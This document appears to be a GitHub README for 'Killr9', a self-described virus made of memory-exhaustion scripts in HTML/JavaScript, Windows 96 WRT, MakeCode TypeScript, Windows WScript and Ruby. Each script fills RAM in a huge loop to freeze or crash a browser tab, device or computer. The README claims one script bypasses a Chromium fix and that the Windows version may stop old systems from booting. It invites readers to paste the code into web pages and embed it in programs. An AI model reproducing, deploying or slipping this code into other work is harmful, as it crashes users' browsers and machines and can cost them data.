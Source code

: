 # Killr9
A virus that will kill virtually anything! We have it available in HTML, JavaScript, Python, MakeCode, TypeScript, Godot, and more!

## Killing Webpages - Inline Script
Paste the JS code inside of a script tag.
```html
<script>
    function ohSnap() {
        var corruptable=[]
        for(var i=0;i<(9999999*999999999999999999999);i++) {
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
        }
    }
    
    setInterval(ohSnap) // required to bypass a fix in newer Chromium versions
</script>
```


## Killing a Windows96 instance(WRT Bin)
Create a WRT bin, like this:
```js
//!wrt
function ohSnap() {
    var corruptable=[]
    for(var i=0;i<(9999999*999999999999999999999);i++) {
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
    }
}

setInterval(ohSnap);
```

Executing any WRT binary on Windows 96 with this code will cause the tab to lag and crash.

## Killing the BBC Micro:bit (MakeCode Editor)
Open the makecode editor at https://makecode.microbit.org/, create a project, and paste the typescript in:
```ts
function ohSnap () {
    for (let i = 0; i <= (9999999 * 999999999999999999999) - 1; i++) {
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
    }
}
let corruptable: number[] = []
corruptable = []
ohSnap()
```

Flashing this code onto your Micro:bit will cause the RAM to become completely full. This will also cause in error when being ran in the simulator, and in rare instances may completely crash it.

## Killing Windows 98 - Windows 11 (WScript)
Create a new `.js` file with the following contents:
```js
function ohSnap() {
    var corruptable=[]
    if(!corruptable.push) {
        corruptable.push=function(e){
            corruptable[corruptable.length]=e;
            corruptable.length++
        }
    }
    for(var i=0;i<(9999999*999999999999999999999);i++) {
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
    }
}

ohSnap()
```

Running this script with WSCRIPT.EXE will not cause immediate system death, but will fill up the RAM and cause the system to lag. Eventually, a force reboot will be required.
In some cases, running this on old versions of Windows may cause the system to not be able to boot up again.

## Embedding in Ruby Programs
Create a new `.rb` file with the following contents:
```ruby
def oh_snap
  corruptable = []
  (0..9999999*999999999999999999999).each do |i|
    11.times { corruptable << i }
  end
end

oh_snap
```
